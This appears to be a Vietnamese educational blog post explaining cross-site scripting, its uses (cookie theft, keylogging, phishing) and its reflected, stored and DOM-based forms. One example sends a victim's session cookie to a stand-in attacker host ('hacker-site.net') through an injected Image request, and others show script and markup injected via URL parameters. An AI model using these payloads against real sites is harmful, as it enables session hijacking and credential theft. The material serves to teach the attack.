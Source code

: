```yaml
---
layout: post
title: Cross Site Scripting - XSS Attack
description: "Attack Method: XSS (Cross Site Scripting)"
headline: 
modified: 2018-02-12
category: network
tags: [XSS]
imagefeature: cover/macos/008.jpg
mathjax:
chart:
share: true
# comments: true
# featured: true
highlight: true
---
```


Attack Method: XSS (Cross Site Scripting)

Language: Vietnamese

## XSS - Cross-Site Scripting
Cross-Site Scripting (XSS) là một trong những kĩ thuật tấn công phổ biến nhất hiên nay, đồng thời nó cũng là một trong những vấn đề bảo mật quan trọng đối với các nhà phát triển web và cả những người sử dụng web. Bất kì một website nào cho phép người sử dụng đăng thông tin mà không có sự kiểm tra chặt chẽ các đoạn mã nguy hiểm thì đều có thể tiềm ẩn các lỗi XSS.

### Giới thiệu
Cross-Site Scripting hay còn được gọi tắt là XSS (thay vì gọi tắt là CSS để tránh nhầm lẫn với CSS-Cascading Style Sheet của HTML) là một kĩ thuật tấn công bằng cách chèn vào các website động (ASP, PHP, CGI, JSP …) những thẻ HTML hay những đoạn mã script nguy hiểm có thể gây nguy hại cho những nạn nhân sử dụng.

### Cách hoạt động
Lỗi này xảy ra khi ứng dụng web thu nhận các dữ liệu nguy hiểm được nhập từ hacker. Một website thường chứa các link, thông qua các link này hacker có thể chèn các đoạn code vào và khi người dùng nào đó sử dụng link này thì coi như 99% là chết, hacker có thể thông qua lỗi này để chèn code vào site hay link để lấy các thông tin quan trọng từ nạn nhân



Phụ thuộc vào mục đích của hacker, những đoạn Javascript được chèn vào để lấy những thông tin như:

+ Cookie: hacker có thể lấy được cookie của người dùng và dùng những thông tin trong cookie để giả mạo phiên truy cập hoặc lấy những thông tin nhạy cảm khác được lưu trong cookie.
+ Keylogging: hacker có thể ghi lại những thao tác gõ phím của người dùng bằng cách sử dụng sự kiện trong Javascript và gửi tất cả những thao tác gõ phím đó về cho hắn để thực hiện những mục đích như đánh cắp các thông tin nhạy cảm, lấy mật khẩu truy cập website hoặc mã số thẻ tín dụng…
+ Phishing: hacker có thể thay đổi giao diện của website bằng cách thay đổi cấu trúc HTML trong trang web để đánh lừa người dùng. Hacker có thể tạo ra những form đăng nhập giả nhằm lừa người dùng đăng nhập vào để đánh cắp mật khẩu.

Sau đó các thông tin này được gửi tới cho hacker . Cách thường dùng của hacker là mã hoá các phần nguy hiểm của link ( đã chèn code) thành kiểu HEX ( hoặc có thể là các hình thức khác ) để làm cho nạn nhân ít nghi ngờ khi click vào cái link nguy hiểm đó . Sau đó là tìm cách nào đó để cho nạn nhân chịu click vào cái link đó.

Hầu hết các ứng dụng web hiện nay dùng cookie để kết hợp 1 tài khoản duy nhất cho 1 người dùng nào đó , nghĩa là cookie của người nào người đó dùng . Các webmail , web bán hàng , nhà băng , … đa số đều dùng cookie với mục đích chứng thực ngừơi dùng , và đây là cái mà hacker cần.

### Vi dụ
Ví dụ url có chứp đoạn mã script
```html
http://www.example.com/search.cgi?query=<script>alert(‘Website đang bị lỗi XSS!’);</script>.
```
Xuất hiện alert => bị lỗ hổng XSS

## Phân loại XSS
Phân loại: Có 3 loại Reflected XSS, Stored XSS và DOM-based XSS

### Reflected XSS
Ở kịch bản này, hacker sẽ gửi cho nạn nhân một URL có chứa đoạn mã nguy hiểm. Nạn nhân chỉ cần gửi request đến URL này thì hacker sẽ có được kết quả mong muốn. Cụ thể:
1. Người dùng đăng nhập web và giả sử được gán session: 
```
Set-Cookie: sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4
```
2. Bằng cách nào đó, hacker gửi được cho người dùng URL:
```
http://example.com/name=var+i=new+Image;+i.src=”http://hacker-site.net/”%2bdocument.cookie;
```
Giả sử `example.com` là website nạn nhân truy cập, `hacker-site.net` là trang của hacker tạo ra
3. Nạn nhân truy cập đến URL trên
4. Server phản hồi cho nạn nhân, kèm với dữ liệu có trong request(đoạn javascript của hacker)
5. Trình duyệt nạn nhân nhận phản hồi và thực thi đoạn javascript
6. Đoạn javascript mà hacker tạo ra thực tế như sau: 
```js
var i = new Image; i.src = 'http://hacker-site.net/' + document.cookie;
```
Dòng lệnh trên bản chất thực hiện request đến site của hacker với tham số là cookie người dùng:
```
GET /sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4 HTTP/1.1
Host: hacker-site.net
```
7. Từ phía site của mình, hacker sẽ bắt được nội dung request trên và coi như session của người dùng sẽ bị chiếm. Đến lúc này, hacker có thể giả mạo với tư cách nạn nhân và thực hiện mọi quyền trên website mà nạn nhân có.

### Stored XSS
Khác với Reflected tấn công trực tiếp vào một số nạn nhân mà hacker nhắm đến, Stored XSS hướng đến nhiều nạn nhân hơn. Lỗi này xảy ra khi ứng dụng web không kiểm tra kỹ các dữ liệu đầu vào trước khi lưu vào cơ sở dữ liệu (ở đây tôi dùng khái niệm này để chỉ database, file hay những khu vực khác nhằm lưu trữ dữ liệu của ứng dụng web). Ví dụ như các form góp ý, các comment … trên các trang web.

Với kỹ thuật Stored XSS , hacker không khai thác trực tiếp mà phải thực hiện tối thiểu qua 2 bước.
+ Đầu tiên hacker sẽ thông qua các điểm đầu vào (form, input, textarea…) không được kiểm tra kỹ để chèn vào CSDL các đoạn mã nguy hiểm.
+ Tiếp theo, khi người dùng truy cập vào ứng dụng web và thực hiện các thao tác liên quan đến dữ liệu được lưu này, đoạn mã của hacker sẽ được thực thi trên trình duyệt người dùng.

### DOM Based XSS
DOM Based XSS là kỹ thuật khai thác XSS dựa trên việc thay đổi cấu trúc DOM của tài liệu, cụ thể là HTML. Chúng ta cùng xem xét một ví dụ cụ thể sau.

Một website có URL đến trang đăng ký như sau:
```
http://example.com/register.php?message=Please fill in the form
```

Khi truy cập đến thì chúng ta thấy một Form rất bình thường. Tuy nhiên nếu đổi thành
```
http://example.com/register.php?message=<label>Gender</label><div class="col-sm-4">MaleFemale</div>function show(){alert();}
```
Người dùng sẽ chẳng chút nghi ngờ với một form “bình thường” như thế này, và khi lựa chọn giới tính, Script sẽ được thực thi


## Tham khảo


[https://techtalk.vn/ki-thuat-tan-cong-cross-site-scripting.html](https://techtalk.vn/ki-thuat-tan-cong-cross-site-scripting.html)

[https://labs.septeni-technology.jp/security/tim-hieu-ve-lo-hong-cross-site-scripting/](https://labs.septeni-technology.jp/security/tim-hieu-ve-lo-hong-cross-site-scripting/)
